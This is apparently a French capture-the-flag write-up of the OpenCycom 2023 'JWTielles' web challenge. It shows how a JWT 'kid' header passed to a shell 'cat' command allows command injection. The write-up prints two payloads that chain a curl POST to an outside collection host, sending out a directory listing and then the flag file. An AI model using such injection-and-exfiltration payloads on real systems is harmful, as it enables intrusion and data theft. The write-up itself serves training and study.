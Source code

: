 ```yaml
---
title: "JWTielles"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```



# OpenCycom 2023 - JWTielles - *300 pts*

## Enoncé
```mmmmmmmmmmm les bonnes tielles...... 🤤```

*Ce challenge a été résolu par 8,3% des équipes.*

## Solution
Le challenge commence sur un super site de tielles `miam`.

![](/images/2023/004/01.jpg)

On remarque en haut à droite une fonction API qui nous redirige vers un endpoint `GET /api/tielles`, qui nous renvoie une image aléatoire de tielle.

Si l'on observe les requêtes qui passent avec un proxy (type Burp Suite), on peut remarquer que l'API nous attribue un jeton d'authentification lors de la première visite de la page.

![](/images/2023/004/02.png)


Lorsque l'on décode le JWT, on se rend compte qu'il ne contient que très peu d'informations. Le seul header un peu inhabituel est le header "kid", qui contient un GUID qui semble ne pas changer entre plusieurs tokens.

![](/images/2023/004/03.png)

Si l'on ne connaît pas le fonctionnement du paramètre KID dans un JWT, une petite recherche Google nous permet de retrouver la RFC ou d'autres ressources qui nous expliquent que le KID était un paramètre qui sert à indiquer au serveur quelle clé utilisée pour signer le token en question.

Cependant, selon la RFC, il n'y a pas de méthode d'implémentation préconisée. Il est donc possible que le challenge repose sur une mauvaise implémentation de ce paramètre.

![](/images/2023/004/04.png)

Selon la méthode de stockage du KID (en BDD, sur le FS, à l'extérieur...) les attaques possibles sont assez larges.

Ici, le développeur de JWTielles a (malheureusement) choisi de stocker le token sur le filesystem, et de retrouver le contenu du fichier à l'aide d'une commande système `cat`. Cette commande est exécutée forcément *avant* la vérification de la signature, ce qui nous permet de mettre les données de notre choix dans le KID sans problème de vérification.

Nous pouvons exploiter un manque de sanitisation des entrées utilisateurs qui sont passées directement dans la commande système.

Concrètement, le paramètre "kid" est vulnérable à une injection de commande. Pour l'exploiter, il suffit d'utiliser un caractère pour terminer la commande en cours (";","&&", ou "||" par exemple), et d'insérer la commande de notre choix.

Cette exécution de commande se fait à l'aveugle, car une fois la commande exécutée, le résultat est passé comme clé pour la signature du JWT. Nous devons donc trouver un moyen d'exfiltrer le résultat de nos commandes.

On peut passer directement par HTTP, en utilisant des services comme RequestBin ou Beeceptor, qui nous permettent d'obtenir le contenu des requêtes qui leur sont envoyées.

```{"alg": "HS256", "typ": "JWT", "kid": "dummy; curl -X \"POST\" -d $(ls -a|base64 -w 0) https://example.free.beeceptor.com"}```

![](/images/2023/004/05.png)

On reçoit : 

![](/images/2023/004/06.png)

Donc on affiche le flag :

```{"alg": "HS256", "typ": "JWT", "kid": "dummy; curl -X \"POST\" -d $(cat ./flag|base64 -w 0) https://example.free.beeceptor.com"}```

![](/images/2023/004/07.png)


Et voila !

*FLAG : OPC{N3\*\*\*\*\*\*\*\*\*\*\*\*\*\*1D}*

